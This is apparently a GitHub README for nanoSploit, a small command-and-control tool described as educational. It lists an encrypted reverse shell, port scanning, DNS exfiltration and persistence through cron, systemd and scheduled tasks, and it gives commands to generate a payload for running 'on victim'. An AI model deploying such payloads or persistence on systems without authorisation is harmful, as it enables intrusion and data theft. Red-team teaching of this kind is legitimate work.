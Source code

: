 # nanoSploit

Minimalist C2 server for educational purpose.

## Features

### Principals

- Encrypted reverse shell
  - With `cd` support
- Port scanner
  - Single host and network scan
  - Banner grabbing
- DNS ex-filtration
  - Used for download/upload
- Persistence
  - Linux :
    - Systemd service -> every 3 seconds
    - Crontab -> every minute
  - Windows :
    - Scheduled task -> every minute

### Bonus

- Multi-session
  - Metasploit-like
- Upload/download files
  - Using DNS ex-filtration
- Cross-platform
- No external modules in payload (no need to `pip install` something)

## Install

With pip:
```shell
pip install git+https://github.com/nanosploit/nanosploit.git
```

## Usage

### Server

Run the program terminal :
```shell
python -m nanosploit
```

### Client

Export a payload to execute on victim :
```shell
python -m nanosploit generate --path payload --host 127.0.0.1 --port 5353
./payload # Execute on remote machine
```

Run the program for debugging :
```shell
python -m nanosploit client
```
